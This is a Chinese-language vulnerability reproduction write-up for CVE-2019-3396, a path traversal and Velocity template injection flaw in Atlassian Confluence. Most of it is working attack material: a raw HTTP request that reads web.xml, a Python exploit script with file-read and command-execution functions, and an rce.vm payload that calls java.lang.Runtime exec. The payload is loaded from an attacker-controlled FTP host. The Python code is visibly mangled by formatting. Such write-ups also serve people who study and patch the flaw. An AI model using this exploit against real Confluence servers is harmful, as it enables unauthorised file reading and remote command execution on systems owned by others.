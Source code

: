 # （CVE-2019-3396）Confluence 路径穿越与命令执行漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2854](https://www.zhihuifly.com/t/topic/2854)

# （CVE-2019-3396）Confluence 路径穿越与命令执行漏洞

## 一、漏洞简介

Atlassian Confluence是企业广泛使用的wiki系统，其6.14.2版本前存在一处未授权的目录穿越漏洞，通过该漏洞，攻击者可以读取任意文件，或利用Velocity模板注入执行任意命令。

## 二、漏洞影响

```
Confluence 1.*.*、2.*.*、3.*.*、4.*.*、5.*.*

Confluence 6.0.*、6.1.*、6.2.*、6.3.*、6.4.*、6.5.*

Confluence 6.6.* < 6.6.12

Confluence6.7.*、6.8.*、6.9.*、6.10.*、6.11.*

Confluence 6.12.* < 6.12.3

Confluence 6.13.* < 6.13.3 `Confluence 6.14.* < 6.14.2` 
```

## 三、复现过程

发送如下数据包，即可读取文件`web.xml`：

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176 `{“contentId”:“786458”,“macro”:{“name”:“widget”,“body”:"",“params”:{“url”:“[https://www.viddler.com/v/23464dc6",“width”:“1000”,“height”:“1000”,"_template":"../web.xml](https://www.viddler.com/v/23464dc6%22,%22width%22:%221000%22,%22height%22:%221000%22,%22_template%22:%22../web.xml)”}}}` 
```

![image](img/9adbb4c51d996229a3c6fd7449565385.png)

6.12以前的Confluence没有限制文件读取的协议和路径，我们可以使用`file:///etc/passwd`来读取文件，也可以通过`https://...`来加载远程文件。

该文件是一个Velocity模板，我们可以通过模板注入（SSTI）来执行任意命令：

![image](img/6aded82af571019993be9738f83e3348.png)

### poc

> 首先需要一台外网的服务器
> 
> ```
> 1.使用FTP加载vm文件  
> 2.修改filename为自己的vm文件路径，例如 filename = "ftp://192.168.50.181/rce.vm"  
> 3.python CVE-2019-3396.py [http://ip:port](http://ip) "whoami" 
> ```

> CVE-2019-3396.py

```
# -*- coding: utf-8 -*-
import re
import sys
import requests

def _read(url):

result = {}

# filename = “…/web.xml”

filename = ‘file:////etc/group’

```
paylaod = url + "/rest/tinymce/1/macro/preview"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
    "Referer": url + "/pages/resumedraft.action?draftId=12345&amp;draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&amp;",
    "Content-Type": "application/json; charset=utf-8"
}
data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"%s"}}}' % filename
r = requests.post(paylaod, data=data, headers=headers)
# print r.content
if r.status_code == 200 and "wiki-content" in r.text:
    m = re.findall('.*wiki-content"&gt;n(.*)n            &lt;/div&gt;n', r.text, re.S)

return m[0] 
```

def _exec(url,cmd):

result = {}

filename = “”

```
paylaod = url + "/rest/tinymce/1/macro/preview"
headers = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0",
    "Referer": url + "/pages/resumedraft.action?draftId=12345&amp;draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&amp;",
    "Content-Type": "application/json; charset=utf-8"
}
data = '{"contentId":"12345","macro":{"name":"widget","body":"","params":{"url":"http://www.dailymotion.com/video/xcpa64","width":"300","height":"200","_template":"%s","cmd":"%s"}}}' % (filename,cmd)
r = requests.post(paylaod, data=data, headers=headers)
# print r.content
if r.status_code == 200 and "wiki-content" in r.text:
    m = re.findall('.*wiki-content"&gt;n(.*)n            &lt;/div&gt;n', r.text, re.S)

return m[0] 
``` `if **name** == ‘**main**’:

url = sys.argv[1]

cmd = sys.argv[2]

print _exec(url,cmd)` 
```

> rce.vm

```
#set ($e="exp")
#set ($a=$e.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($cmd))
#set ($input=$e.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))
#set($sc = $e.getClass().forName("java.util.Scanner"))
#set($constructor = $sc.getDeclaredConstructor($e.getClass().forName("java.io.InputStream")))
#set($scan=$constructor.newInstance($input).useDelimiter("\A"))
#if($scan.hasNext())
    $scan.next()
#end 
```

## 参考链接

> https://vulhub.org/#/environments/confluence/CVE-2019-3396/